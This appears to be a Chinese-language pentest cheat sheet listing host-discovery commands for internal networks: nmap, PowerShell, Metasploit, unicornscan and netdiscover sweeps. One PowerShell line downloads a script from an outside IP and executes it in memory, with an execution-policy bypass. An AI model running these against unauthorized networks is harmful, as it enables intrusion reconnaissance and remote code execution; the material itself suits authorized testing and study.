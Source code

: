 **Nmap扫描**

扫描C段下的存活主机

```bash
nmap -sn -PE -T4 192.168.0.0/24
```

**Powershell扫描**

```shell
powershell.exe -exec bypass -Command "Import-Module ./Invoke-TSPingSweep.ps1; Invoke-TSPingSweep -StartAddress 192.168.1.1 -EndAddress 192.168.1.254 -ResolveHost -ScanPort -Port 445,135"

powershell iex(new-object net.webclient).downloadstring('http://47.104.255.11:8000/Invoke-TSPingSweep.ps1');Invoke-TSPingSweep -StartAddress 10.10.10.1 -EndAddress 10.10.10.254 -ResolveHost -ScanPort -Port 445,135
```

#### UDP协议探测

**Nmap扫描**

```bash
nmap -sU –T4 -sV --max-retries 1 192.168.1.100 -p 500
```

**MSF扫描**

```msf
msf > use auxiliary/scanner/discovery/udp_probe
msf > use auxiliary/scanner/discovery/udp_sweep
```

**Unicornscan扫描**

linux下推荐使用

```bash
unicornscan -mU 192.168.1.100
```

#### ARP协议探测

**Nmap**

```bash
nmap -sn -PR 192.168.1.1/24
```

**msf**

```msf
msf > use auxiliary/scanner/discovery/arp_sweep
```

**Netdiscover**

```bash
netdiscover -r 10.10.10.0/24 -i eth1
```
